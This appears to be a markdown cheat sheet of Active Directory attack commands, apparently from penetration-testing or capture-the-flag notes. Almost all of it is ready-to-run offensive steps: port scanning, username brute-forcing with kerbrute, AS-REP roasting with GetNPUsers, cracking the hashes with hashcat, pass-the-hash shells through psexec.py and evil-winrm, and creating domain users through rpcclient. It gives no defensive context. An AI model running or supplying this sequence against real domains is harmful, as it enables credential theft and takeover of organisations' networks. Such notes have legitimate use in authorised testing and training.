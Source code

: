 ### Nmap Scan 
- `nmap -p 53,135,139,88,389,445,464,593,636,3268,3269,5985,9389,49676,49696,49674,49675,49667,49666 -sV -sC -T16 -Pn -oA $IP $IP`

### Get Domain name
- `smbmap -H $IP`

### Get user's list
- `GetADUsers.py $DOMAIN.local/ -dc-ip $IP -debug`

### Brute-force users on Domain
- `kerbrute userenum -d $DOMAIN.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt — dc $IP`

### Enumerate shares
- `smbclient -L \\\\$IP -N`

### Get Hashes
- `GetNPUsers.py '$DOMAIN' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip $IP`

### Crack Hashes
- `hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt — force`

### Shell
`psexec.py -hashes '$HASH' dc-ip $IP $User@$IP`

### rpcclient
- `rpcclient -U "" -N $DOMAIN` Connect to rpcclient
- `enumdomusers` Enumerate Domain Users
-  `queryuser $RID` Enumerate User
- `enumdomgroups` Enumerate Domain Groups
- `getdomwinfo` Domain Password Information 
- `createdomuser $NAME` ,`setuserinfo2 $NAME 24 $PASSWORD` Creating Domain User

<!-- -->
[Enumerating AD with rpcclient](https://www.hackingarticles.in/active-directory-enumeration-rpcclient/)

### BloodHound
starting BloodHound
- `sudo neo4j console`
- `bloodhound`
 <!-- -->
 
 Credentials
- `Username: neo4j`
- `Password: BloodHound`

<!-- -->

### Misc
- `ruby evil-winrm.rb -i $IP -u $USER -p $PASS`
- `pwsh` to run powershell on kali


[WADComs](https://wadcoms.github.io/)